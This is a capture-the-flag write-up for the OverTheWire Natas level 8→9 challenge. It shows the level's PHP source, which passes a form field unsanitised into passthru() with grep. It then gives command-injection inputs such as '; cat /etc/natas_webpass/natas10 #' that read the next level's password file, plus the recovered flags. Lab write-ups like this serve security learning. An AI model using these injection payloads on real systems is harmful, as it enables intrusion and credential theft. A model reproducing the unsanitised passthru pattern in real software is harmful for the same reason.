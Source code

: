 # Natas Level 8 → Level 9 Command Injection

## Previous Flag
<b>ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t</b>

## Goal
Username: natas9<br>
URL: http://natas9.natas.labs.overthewire.org<br>

Find words containing: <br>
Output:<br>
View sourcecode

## What I learned
```
passthru() has no checking input
Forms need to be check before press submit or very vulnerable
SQL injection   1=1, ' OR 1=1 -- are different than Command Injection
```

## Solution
```
Click View source code
http://natas9.natas.labs.overthewire.org/index-source.html

<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>

Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt"); 👀
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>

http://natas9.natas.labs.overthewire.org/dictionary.txt             # Nothing useful

Find words containing: ; ls -la;
Output:
total 476
drwxr-x---  2 natas9 natas9   4096 Jul 28 18:49 .
drwxr-xr-x 38 root   root     4096 Jul 28 18:49 ..
-rw-r-----  1 natas9 natas9    117 Jul 28 18:49 .htaccess
-rw-r-----  1 natas9 natas9     45 Jul 28 18:49 .htpasswd
-rw-r-----  1 natas9 natas9 460878 Jul 28 18:49 dictionary.txt
-rw-r--r--  1 root   root     2924 Jul 28 18:49 index-source.html
-rw-r-----  1 natas9 natas9   1185 Jul 28 18:49 index.php
Find words containing: ; cat /etc/natas_webpass/natas10 #
Output:
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu 🔐
Find words containing: ; cat /etc/natas_webpass/natas10;
Output:
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu 🔐
```

## Flag
<b>t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu</b>

## Continue
[Continue](/overthewire/Natas0910.md)